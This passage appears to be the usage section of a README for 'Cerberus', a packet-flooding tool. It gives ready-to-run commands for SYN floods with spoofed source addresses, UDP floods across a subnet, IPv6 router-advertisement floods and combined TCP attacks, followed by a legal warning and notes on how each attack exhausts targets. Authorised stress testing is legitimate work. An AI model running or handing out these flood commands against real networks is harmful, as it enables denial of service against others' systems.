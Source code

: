 ### SYN Flood Attack
```
cerberus -4 -T 1 -h 192.168.1.1 -t 60 -s 10.0.0.1 -p 80,80
```
- IPv4 SYN flood on port 80 for 60 seconds
- Spoofed source IP: 10.0.0.1

### UDP Flood with Port Range
```
cerberus -4 -U -d 192.168.1. -t 120 -p 53,53 -q 53,53
```
- IPv4 UDP flood on random IPs in 192.168.1.0/24
- Target port: 53 (DNS)
- Source port: 53

### IPv6 ICMPv6 Router Advertisement
```
cerberus -6 -R -h 2001:db8::1 -t 30 -s 2001:db8:1::1
```
- IPv6 router advertisement flood
- Target: 2001:db8::1
- Source: 2001:db8:1::1

### Mixed TCP Attacks
```
cerberus -4 -T 0 -T 1 -T 4 -h 192.168.1.1 -t 90 -w 65535
```
- Combines FIN, SYN, and ACK attacks
- Window size: 65535

## Important Notes and Warnings

### Legal and Ethical Considerations
- **LEGAL WARNING**: Only use Cerberus on networks and systems you own or have explicit written permission to test. Unauthorized use may violate laws such as the Computer Fraud and Abuse Act (CFAA) in the US or equivalent laws in other countries.
- **ETHICAL USE**: This tool is designed for network testing, security research, and penetration testing with proper authorization. Misuse can cause significant harm, including service disruption, data loss, and legal consequences.

### Technical Requirements
- Most attacks require root/administrator privileges to send raw packets
- IPv6 attacks may require IPv6 connectivity and proper routing
- Packet rates depend on system performance, network speed, and hardware capabilities
- Some attacks may be mitigated by modern firewalls, IDS/IPS systems, or rate limiting

### Protocol-Specific Behavior
- **TCP Attacks**: Manipulate connection state machines, potentially exhausting connection tables
- **UDP Attacks**: Stateless floods that consume bandwidth without requiring responses
- **ICMP Attacks**: Require targets to generate responses, doubling network traffic
- **Bomb Attacks**: Establish actual connections, making them more detectable but potentially more damaging
